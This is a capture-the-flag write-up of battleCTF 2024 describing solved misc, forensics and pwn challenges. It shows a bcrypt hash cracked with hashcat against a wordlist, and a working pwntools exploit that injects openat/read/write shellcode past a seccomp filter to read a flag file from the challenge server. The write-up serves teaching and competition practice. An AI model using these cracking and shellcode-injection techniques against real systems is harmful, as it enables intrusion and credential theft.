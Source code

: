 ```yaml
---
title: BattleCTF 2024
date: 2024-12-27 04:45:00 +0800
categories: [CTF, battleCTF]
tags: [writeups, jeopardy]
math: true
mermaid: true
media_subpath: /assets/posts/2024-12-27-battleCTF
image:
  path: preview.png
---
```


# BattleCTF 2024
Hi there, i participated in the battleCTF2024 under the name `sigsegv`. 

Here are the challenges i solved:
![Challenges Solved](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/images/challenges_solved.png)   

## Misc
### Rules
Upon joining the discord server and nagivating to the #announcements channel we obtain the flag.
![Rule Challenge flag](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Rules/images/rules_flag.png)  
Flag: `battleCTF{HereWeGo}`

### Invite Code
This challenge was a bit tricky because many i overlooked the message in the #notification channel before the CTF began. Luckily, after sometime i discovered it.   
![Invite Code First Image](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_code_discord.png) 

First thing i did was to pick up the encoded data and place it into `cyberchef`.    
![Cyber Chef Hex Data Decode](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_code_cyberchef_from_hex.png)   
We can see that the data provided was a hex dump and `cyberchef` decoded it successfully resulting in a contatenation of base64 string and a link. The base64 string just leads us to the Rick Roll video in YouTube and so that isn't vert relevant.

The other link `https://bugpwn.com/invite.ini` leads us to a page where some data is hosted on the website.
![Invite .ini file](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_ini_file.png)

This looks like some base64 data. We can use `cyberchef` to decode this.
![Invite .ini b64 data decoded](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_ini_b64_data_decoded.png)    

From `cyberchef` i downloaded the raw binary file and run the file command on it.
```shell
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ file download.gz 
download.gz: gzip compressed data, last modified: Fri Oct  4 11:25:31 2024, max compression, original size modulo 2^32 1081
```

I then decided to attempt unzipping the file with gunzip. After unzipping i read the contents of the file.
```shell
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ gunzip download.gz 
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ cat download
b'\xac\xed\x00\x05t(\x83<?xml version="1.0" encoding="utf-8" standalone="no" ?>
<!DOCTYPE users SYSTEM >
<users max="81">
	<user >
		<loginname>battlectf</loginname>
		<password>$2a$12$ecui1lTmMWKRMR4jd44kfOkPx8leaL0tKChnNid4lNAbhr/YhPPxq</password>
		<4cr_encrypt>05 5F 26 74 9B 8D D7 09 49 EB 61 94 5D 07 7D 13 AA E8 75 CD 6A 1E 79 12 DA 1E 8A E7 2F 5F DB 87 E4 0D D2 13 E4 82 EE 10 AC A7 3A BF 54 B2 A4 A5 36 EA 2C 16 00 89 AE B8 22 0B F5 18 CA 03 32 C8 C6 6B 58 80 EC 70 77 6E 16 5C 56 82 6F AD 0B C5 97 69 E9 B8 4E 54 90 95 BB 4D ED 87 99 98 BF EC D4 E2 8A 0D C5 76 03 89 A6 11 AB 73 67 A0 75 AE 3C 84 B6 5D 21 03 71 B8 D9 A0 3B 62 C0 5B 12 DA 5C 91 87 19 63 02 A4 3B 04 9F E0 AD 75 3E 35 C3 FB 1B 5E CB F0 5A A7 8B DF 00 8B DC 88 24 EF F4 EE CE 5C 3B F3 20 10 C2 52 DF 57 D2 59 5E 3E 46 D0 85 10 89 AC 09 07 EF C5 EE 1D 2F 89 1D 83 51 C6 52 38 13 2A D0 20 66 6D 52 B1 93 1B 21 06 9F E5 00 B7 AB 30 EB 98 7F CB 80 17 36 16 EF 73 BB 59 60 E4 4B F0 8A BD FF 85 A1 37 5D 4E C0 91 92 F2 68 C5 20 68 A0 A7 84 EB</4cr_encrypt>
	</user>
</users>\r\n<!-- battleCTF AFRICA 2024 -->\r\n
``` 
The content of the .gz file is an XML file with some interesting fields. The `4cr_encrypt` field contains some encrypted data. I assumed that the name `4cr_encrypt` was just a wordplay of the actual enctyption scheme `rc4_encrypt`. Now that we are aware if the encyption scheme used we can attempt to decrypt it which would require a password. Luckily, we also have a password field in the XML file which is also hashed.

At this point i saved the hash to a file and attempted to crack the password with John The Ripper. After a while we obtain the password.
```shell
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ hashcat -m 3200 hashes ~/Downloads/rockyou.txt 
...
$2a$12$ecui1lTmMWKRMR4jd44kfOkPx8leaL0tKChnNid4lNAbhr/YhPPxq:nohara
``` 

Using this password and cyberchef i decrypted the data successfully to obtain the flag.
![Invite Code Flag Image](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_code_flag.png) 
Flag: `battleCTF{pwn2live_d7c51d9effacfe021fa0246e031c63e9116d8366875555771349d96c2cf0a60b}`

## Forensics
### Do[ro x2]
This was an interesting and very simple foresics challenge where were provided with a file having a **.ad1** (`roro.ad1`) extension. After a little googling and reading i discovered that it was an **evidence file** and the `AccessData FTK Imager` tool can be used to parse it.

I quickly jumped to my windows virtual machine to download and install`AccessData FTK Imager`. After importing the evidence file `AccessData FTK Imager` asks for password.
![FTK Imager Evidence File Import](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Dororo/images/FTK_imager_windows.png) 

Immediately it hit me that the name of the challenge could be a hint to the password. I then tried the password `Dororo` and viola! i obtained the flag.
![Doror Flag](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Dororo/images/dororo_flag.png) 
Flag: `BattleCTF{You_d0_1t_like_4_pro_forensicator6578888}`

## Pwn
### Universe
For this pwn challenge we were proivded with a ELF binary `universe`. I run `checksec` on the file to get a security overview of the file.
![Checksec Universe](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/checksec_universe.png)  

This is an x64 little endian exucutable with NX and PIE enabled.

Next thing was to run the binary to see it's functionality before diving into any sorts of static or dynamic analysis techniques.
![Running Universe](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/running_universe.png)

After this, i opened it up in `Ghidra` to view the decompilation and better understand how the `universe` executable was working.
As always, i analyse the main function first since it is the entry point to every application.
![Ghidra Universe Main Func Decompilation](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/main_function_decompilation.png) 

We can see from the image on line 20 that the pointer **pcVar1** is dereferenced and and it's content is executed. We also observe on line 10 that **pcVar1** is a pointer to a free **0x1000** bytes of memory space. Inside the for loop on line 18 we see that data is read into **pcVar1** and the loop only breaks when the **0x1000** bytes is full. The content content of the pointer **pcVar1** is then executed.

This seems very straight forward and we can immediately see that we can execute code. There's just one small problem. The function `FUN_00101208()` is called before all this. That function contains code to block certain syscalls using `seccomp`.
![Seccomp Load](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/seccomp_load.png) 

![Seccomp Rule Add](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/seccomp_rule_add.png)    

After discovering this, i used `seccomp-tools` to get a dump of the rules applied.
![Seccomp Tools Dump](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/seccomp_tools_dump.png)    

We can see that certain `syscalls` have been blocked and as a result we would have to craft our exploit shellcode with a `syscalls` that have not been listed here. In most CTFs the goal is to obtain the flag so i started searching for alternative `syscalls` i could abuse to read files on the target and get the flag.  After some searching, i decided to go with the `openat()` `syscall` to open and read files.

Using pwntools python library i crafted an exploit.
Find exploit code here:
```python
from pwn import *

context.clear(arch="amd64")

shellcode = shellcraft.linux.openat(-1, "/flag.txt")
shellcode += shellcraft.linux.read('rax', 'rsp', 100)
shellcode += shellcraft.linux.write(1, 'rsp', 100)

assembled_shellcode = asm(shellcode)
padding_size = 4096 - len(assembled_shellcode)
payload = assembled_shellcode + b'\x90' * padding_size

def main():
    io = remote("challenge.bugpwn.com",1004)
    io.sendline(payload)
    io.interactive()

if __name__ == "__main__":
    main()
```

Upon executing this script i obtained the flag.
```shell
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF/pwn/universe$ python3 read.py 
...
Africa battleCTF 2024
By its very subject, cosmology flirts with metaphysics. Because how can we study an object from which we cannot extract ourselves? Einstein had this audacity and the Universe once again became an object of science. Without losing its philosophical dimension.
What do you think of the universe?
battleCTF{Are_W3_4l0ne_!n_7he_univ3rs3?_0e2899c65e58d028b0f553c80e5d413eeefef7af987fd4181e834ee6}
\xa3p[*] Got EOF while reading in interactive
```

Flag: `battleCTF{Are_W3_4l0ne_!n_7he_univ3rs3?_0e2899c65e58d028b0f553c80e5d413eeefef7af987fd4181e834ee6}`